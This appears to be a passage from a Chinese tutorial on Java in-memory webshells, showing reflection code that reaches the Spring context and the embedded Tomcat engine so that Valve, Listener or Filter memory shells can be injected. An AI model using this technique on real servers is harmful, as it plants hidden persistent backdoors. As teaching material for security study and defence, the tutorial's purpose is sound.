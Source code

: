 ```java
                    dynamicMBean);
            //SpringApplicationAdminMXBeanRegistrar
            Object registrar = (SpringApplicationAdminMXBeanRegistrar) getFieldValue("org.springframework.boot" +
                            ".admin.SpringApplicationAdminMXBeanRegistrar$SpringApplicationAdmin",
                    "this$0", resource);
            context = (WebApplicationContext) getFieldValue("org.springframework.boot.admin.SpringApplicationAdminMXBeanRegistrar",
                    "applicationContext", registrar);
            break;
        }
```

### 5.3 获取Tomcat容器

在SpringBoot启过程中，会实例化Tomcat服务器，而该对象保存在spring context中的，所以我们也能获取到Tomcat服务器的容器对象

![ServletWebServerApplicationContext](Java应用内存马/ServletWebServerApplicationContext.png)

获取Tomcat Engine的代码参考如下，拿到Tomcat下的容器对象，我们可以参考上文直接添加Valve/Listener/Wrapper/Filter内存马

```java
  	   //AnnotationConfigServletWebServerApplicationContext
       WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        Object tomcatServer = getFieldValue("org.springframework.boot.web.servlet.context" +
                ".ServletWebServerApplicationContext",
                "webServer", context);
        Object tomcat = getFieldValue("org.springframework.boot.web.embedded.tomcat.TomcatWebServer", "tomcat",
                tomcatServer);
        Object server = getFieldValue("org.apache.catalina.startup.Tomcat", "server", tomcat);
        Object[] services = (Object[]) getFieldValue("org.apache.catalina.core.StandardServer",
                "services", server);
        Object service = services[0];
        //拿到StandardEngine
        Object engine = getFieldValue("org.apache.catalina.core.StandardService", "engine", service);

```
